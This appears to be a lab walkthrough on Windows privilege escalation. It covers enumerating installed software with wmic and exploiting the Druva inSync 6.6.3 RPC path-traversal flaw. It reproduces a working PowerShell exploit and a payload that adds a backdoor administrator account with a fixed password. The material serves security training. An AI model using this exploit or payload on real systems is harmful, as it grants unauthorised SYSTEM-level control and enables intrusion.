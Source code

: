# 🤕 Abusing Vulnerable Software

### Unpatched Software

Software installed on the target system can present various privilege escalation opportunities. As with drivers, organisations and users may not update them as often as they update the operating system. You can use the `wmic` tool to list software installed on the target system and its versions. The command below will dump information it can gather on installed software (it might take around a minute to finish):\
`wmic product get name,version,vendor`Remember that the `wmic product` command may not return all installed programs. Depending on how some of the programs were installed, they might not get listed here. It is always worth checking desktop shortcuts, available services or generally any trace that indicates the existence of additional software that might be vulnerable.\
Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like [exploit-db](https://www.exploit-db.com/), [packet storm](https://packetstormsecurity.com/) or plain old [Google](https://www.google.com/), amongst many others.\
Using wmic and Google, can you find a known vulnerability on any installed product?

### Case Study: Druva inSync 6.6.3

The target server is running Druva inSync 6.6.3, which is vulnerable to privilege escalation as reported by [Matteo Malvica](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/). The vulnerability results from a bad patch applied over another vulnerability reported initially for version 6.5.0 by [Chris Lyne](https://www.tenable.com/security/research/tra-2020-12).\
The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port 6064 with SYSTEM privileges, accessible from localhost only. If you aren't familiar with RPC, it is simply a mechanism that allows a given process to expose functions (called procedures in RPC lingo) over the network so that other machines can call them remotely.\
In the case of Druva inSync, one of the procedures exposed (specifically procedure number 5) on port 6064 allowed anyone to request the execution of any command. Since the RPC server runs as SYSTEM, any command gets executed with SYSTEM privileges.\
The original vulnerability reported on versions 6.5.0 and prior allowed any command to be run without restrictions. The original idea behind providing such functionality was to remotely execute some specific binaries provided with inSync, rather than any command. Still, no check was made to make sure of that.\
A patch was issued, where they decided to check that the executed command started with the string `C:\ProgramData\Druva\inSync4\`, where the allowed binaries were supposed to be. But then, this proved insufficient since you could simply make a path traversal attack to bypass this kind of control. Suppose that you want to execute `C:\Windows\System32\cmd.exe`, which is not in the allowed path; you could simply ask the server to run `C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe` and that would bypass the check successfully.\
To put together a working exploit, we need to understand how to talk to port 6064. Luckily for us, the protocol in use is straightforward, and the packets to be sent are depicted in the following diagram:\
\
The first packet is simply a hello packet that contains a fixed string. The second packet indicates that we want to execute procedure number 5, as this is the vulnerable procedure that will execute any command for us. The last two packets are used to send the length of the command and the command string to be executed, respectively.\
Initially published by Matteo Malvica [here](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html), the following exploit can be used in your target machine to elevate privileges and retrieve this task's flag. For your convenience, here is the original exploit's code:\
`$ErrorActionPreference = "Stop"`

`$cmd = "net user pwnd /add"`

`$s = New-Object System.Net.Sockets.Socket(`\
`[System.Net.Sockets.AddressFamily]::InterNetwork,`\
`[System.Net.Sockets.SocketType]::Stream,`\
`[System.Net.Sockets.ProtocolType]::Tcp`\
`)`\
`$s.Connect("127.0.0.1", 6064)`

`$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")`\
``$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")``\
`$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");`\
`$length = [System.BitConverter]::GetBytes($command.Length);`

`$s.Send($header)`\
`$s.Send($rpcType)`\
`$s.Send($length)`\
`$s.Send($command)`

You can pop a Powershell console and paste the exploit directly to execute it (The exploit is also available in the target machine at `C:\tools\Druva_inSync_exploit.txt`). Note that the exploit's default payload, specified in the `$cmd` variable, will create a user named `pwnd` in the system, but won't assign him administrative privileges, so we will probably want to change the payload for something more useful. For this room, we will change the payload to run the following command:\
`net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add`This will create user `pwnd` with a password of `SimplePass123` and add it to the administrators' group. If the exploit was successful, you should be able to run the following command to verify that the user `pwnd` exists and is part of the administrators' group:\
Command Prompt\
`PS C:\> net user pwnd`\
`User name pwnd`\
`Full Name`\
`Account active Yes`\
`[...]Local Group Memberships *Administrators *Users`\
`Global Group memberships *None`

As a last step, you can run a command prompt as administrator:\


When prompted for credentials, use the `pwnd` account. From the new command prompt, you can retrieve your flag from the Administrator's desktop with the following command `type C:\Users\Administrator\Desktop\flag.txt`.
